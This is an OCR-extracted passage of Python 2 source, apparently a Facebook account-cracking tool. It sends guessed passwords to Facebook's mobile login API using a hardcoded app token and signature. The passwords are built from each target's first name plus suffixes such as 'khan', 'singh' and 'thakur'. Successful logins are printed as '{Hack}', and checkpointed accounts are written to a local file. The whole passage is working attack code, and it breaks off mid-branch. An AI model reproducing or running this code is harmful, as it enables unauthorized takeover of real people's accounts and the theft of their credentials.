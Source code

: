 							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92mтШЮ{Hack}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;91mтШЮ{CP}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = (j['first_name']+'khan')
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92mтШЮ{Hack}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;91mтШЮ{CP}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = (j['first_name']+'singh')
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92mтШЮ{Hack}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;91mтШЮ{CP}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = (j['first_name']+'thakur')
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92mтШЮ{Hack}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]: